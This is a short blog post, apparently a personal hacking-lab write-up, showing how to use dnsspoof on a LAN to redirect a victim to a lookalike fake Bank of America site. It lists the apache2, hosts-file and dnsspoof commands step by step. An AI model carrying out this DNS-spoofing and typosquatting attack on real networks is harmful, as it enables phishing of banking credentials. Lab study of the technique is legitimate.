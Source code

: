 ```yaml
---
layout: post
title: Redirect Access Websites In LAN Using Dnsspoof  
categories: Hacking-Lab
#subtitle: Excerpt from Soulshaping by Jeff Brown
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
tags: [hacking, dnsspoof, redirect dns, dns spoofing ]

---
```

## Script:  
Attacker and victim in a LAN network together and victim want to access to websites **www.bankofamerica.com** to make transactions.  
Because **www.bankofamerica** is protected by SSL so attacker can not attack by fake **www.bankofamerica.com**  in their computer. So  
they create a websites has the similar name in their computer, call **www.bankofamerrica.com**, then they find the way to seek to  
make someone else visit **www.bankofamerrica.com** instead **www.bankofamerica.com**.  
## 1. Network Model:  
- **Attacker: 192.168.1.92**
- **User: 192.168.1.173 using windows 7 system**   


## 2. Create Webserver:   
We can you service apache2 in kali linux to create a webserver. we should change content of index.html.    
```
vi /var/www/html/index.html
```    
Type: This Is Fake Websites Of www.bankofamerica.com    
![](/assets/img/2020-3-1-index.png)  
```
service apache2 start 
```    

## 3. Attack:  
```
vi /usr/local/hosts
```    
Type: 
```
192.168.1.92  www.bankofamerrica.com  
```  
>:warning: **Warning:** use **TAB** between ip and domain.  
```    
dnsspoof -f /usr/local/hosts
```  

## Result:
![](/assets/img/2021-3-1-result.png)  
![](/assets/img/2020-3-1-result-dnsspoof.png)  

DNS query in wireshark:  
![](/assets/img/2021-3-1-show-dns-query.png)  

